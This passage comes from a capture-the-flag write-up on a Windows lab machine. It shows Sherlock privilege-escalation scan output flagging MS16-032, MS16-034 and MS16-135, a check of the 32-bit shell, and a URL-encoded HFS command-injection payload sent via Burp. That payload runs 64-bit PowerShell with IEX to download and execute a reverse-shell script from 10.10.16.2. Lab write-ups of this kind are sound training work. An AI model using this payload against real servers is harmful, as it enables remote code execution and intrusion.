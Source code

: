 ```
Find-AllVulns

```

As you can see, at the very end of the `Sherlock.ps1` script, I've added `Find-AllVulns`.

```
...
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
...

```

There are three that show “Appears Vulnerable”, MS16-032, MS16-034, and MS16-135.

Since, when I ran `systeminfo` command on the device before, I knew it was a 64-bit architecture, but I still wanted to confirm it.

```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess
False
```
The shell we got was running on 32-bit process, this is because the `HFS` process is likely running as a `32-bit` process. So, my first task was to run `powershell` on 64-bit process.

So from within a 32-bit session, calling PowerShell from the `C:\windows\system32` path will give the 32-bit version. To get a `64-bit` shell, I’ll use the full path to PowerShell in the `sysNative` directory:

SO, I hoped backed to `BurpSuite`, and edited the request I had in the repeater with the following, exited out of the shell, started another listerner on the same port.
```
/?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.16.2/rev.ps1').}
```

Once, it was done, I, again, received a user shell, which is similar to the one I got previously but now it was running a `64-bit` shell

